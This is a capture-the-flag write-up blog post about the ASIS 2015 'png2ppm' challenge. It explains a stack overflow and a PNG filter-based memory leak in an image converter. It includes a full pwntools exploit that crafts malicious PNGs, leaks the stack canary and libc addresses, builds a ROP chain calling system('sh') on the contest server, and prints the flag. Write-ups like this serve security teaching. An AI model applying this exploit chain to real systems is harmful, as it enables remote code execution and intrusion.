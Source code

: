 ```yaml
---
layout: post
title: "ASIS 2015 Finals: png2ppm"
modified: 2015-10-14
tags: asis, asis2015finals, pwn
---
```


This challenge was an image conversion service which expected a PNG file and converted into a PPM file. PPM is a simple text-based image format, here is the wikipedia page describing it: https://en.wikipedia.org/wiki/Netpbm_format

The main vulnerability was a stack buffer overflow, because it allocated a buffer with the size of width * height * bitsPerPixel and copied the PNG's decompressed zlib data (except the filter field) to the buffer which does not respected the allocated buffer's size.

The main problem was that we also overwrote the stack canary and it was a 64-bit ASLR-enabled PIE binary (as the challenge website stated so) which did not fork, so new canary generated for every new connection:

![alt]({{ site.url }}/images/asis2015finals/png2ppm1.png)

Luckily there was an other vulnerability: the PNG file format uses a method called Filtering which can help to reduce the size of the file by only storing the differences with the pixel to the left or the pixel above etc. You can read about it here: https://en.wikipedia.org/wiki/Portable_Network_Graphics#Filtering

So if we tried to read the previous row in first row, then it read before our buffer. This way we could read the stack cookie from the previous function call. Although I am not 100% sure, but I think the binary was compiled with -fstack-protector-all, because there was stack cookie in every function. In this case maybe this paranoid setting caused more harm than good... :)

I had to experiment a bit with the width / height / with or without alpha channel options. As I had to switch between the "copy the above line" (2) filter (for the stack cookie) and "copy the exact values" (0) filter (for the return address). Finally I created a 6*1 PNG with alpha channel.

This way we could overwrite the stack cookie and we had RIP control. BUT as the binary was a PIE binary we had not fix addresses where we could jump. Or do we?

Basically the return address points to a valid memory address, to the next instruction after the sub_1560 call. So if we partially overwrite the return address, we can jump somewhere in the png2ppm binary.

Practically I jumped to the program's start again as at this point I already had a lot of leaked addresses as the result of the conversion contained the stack cookie, an address from the stack, and an address from the png2ppm binary (although I had to mix the address bytes from the pixelmap and the alpha map, because the conversion divided the values into two different files).

Only one thing separated me from getting a shell: a libc address :)

Because I know the program's base address at this point, I could jump to the puts PLT and print out the GOT table. So I got the puts function's libc address and calculated the system's address from it.

So in the next ROP chain I could call the system with "sh". For this I had to calculate the "sh" string's address from the stack (I could calculate this, because I already had a stack address leak).

Because of the partial overwrite, I also overwrote 4 bits from the ASLR random part, so for the real server I had to run the exploit multiple times to hit the correct address with a 1/16 change (locally I debugged it with disabled ASLR).

Finally I could print the flag out:
{% highlight text %}
ASIS{487e532d3aae05f1717f46104ba4ebf6}
{% endhighlight %}

### Exploit code

{% highlight python %}
import sys
import binascii
import struct
import zlib
from pwn import *
from time import sleep

for iTry in xrange(64):
    print "Try #%d / 64" % (iTry + 1)
    try:
        p = remote('185.106.120.22', 1337)

        time.sleep(0.5)

        def getChunk(data):
            return struct.pack('>I', len(data) - 4) + data + struct.pack('>i', binascii.crc32(data))

        def convertPng(width, height, plain):
            pngHdr = "\x89PNG\x0d\x0a\x1a\x0a";
            iHdr = getChunk("IHDR" + struct.pack('>II', width, height) + "\x08\x06\x00\x00\x00")
            iDat = getChunk("IDAT" + zlib.compress(plain))
            iEnd = getChunk("IEND")
            pngData = pngHdr + iHdr + iDat + iEnd
            p.send(str(len(pngData)) + '\n' + pngData)

        #system = "\x2e\x5d"
        mainPart = "\x79\x5a"

        convertPng(6, 1, ("\x02" + "\x00" * 24) * 6 + "\x00"*9 + mainPart)

        p.recvuntil('\n255\n')
        leakLine1 = p.recvline().strip()
        p.recvuntil('\n255\n')
        leakLine2 = p.recvline().strip()
        print "Leak lines = %r, %r" % (leakLine1, leakLine2)

        leakStr1 = ''.join([chr(int(x)) for x in leakLine1.split(' ')])
        leakStr2 = ''.join([chr(int(x)) for x in leakLine2.split(' ')])
        cookieLeak = u64(leakStr1[0:3]+leakStr2[0]+leakStr1[3:6]+leakStr2[1])
        stackBase = u64(leakStr1[6:9]+leakStr2[2]+leakStr1[9:12]+leakStr2[3]) - 0x1fc60 - 0x480
        prgBase = u64(leakStr1[12:15]+leakStr2[4]+leakStr1[15:18]+leakStr2[5]) - 0x184e
        print "Leaks: cookie = 0x%016x, stack = 0x%016x, prg = 0x%016x" % (cookieLeak, stackBase, prgBase)

        puts = prgBase + 0xa20
        putsGot = prgBase + 0x202f48
        popRdi = prgBase + 0x1b53
        main = prgBase + (((ord(mainPart[1]) - 0x40) << 8) + ord(mainPart[0]))
        rbx = "BBBBBBBB"
        rbp = "CCCCCCCC"
        ret = "DDDDDDDD"

        convertPng(64, 1, "\x00"*(1+64*4)+"\x00" + "X"*80 + p64(cookieLeak) + "XXXXXXXX"+rbx+rbp+p64(popRdi)+p64(putsGot)+p64(puts)+p64(main))
        p.recvuntil('\n255\n')
        p.recvuntil('\n255\n')
        p.recvline()
        putsLeak = u64(p.recvline()[:-1]+'\x00'*2)
        print "puts leak = 0x%016x" % putsLeak

        putsLocal = 0x7ffff786be30
        systemLocal = 0x7ffff7842640
        remoteSystem = putsLeak - putsLocal + systemLocal

        stackBaseLocal = 0x7ffffffde000
        binShLocal = 0x7fffffffe0e8
        binShRemote = stackBase - stackBaseLocal + binShLocal

        convertPng(64, 1, "\x00"*(1+64*4)+"\x00" + "X"*80 + p64(cookieLeak) + "XXXXXXXX"+rbx+rbp+p64(popRdi)+p64(binShRemote)+p64(remoteSystem)+"sh\x00")

        p.send('cat flag\n')
        p.interactive()
        break
    except:
        try:
            p.close()
        except:
            pass
        print "Fail!"
{% endhighlight %}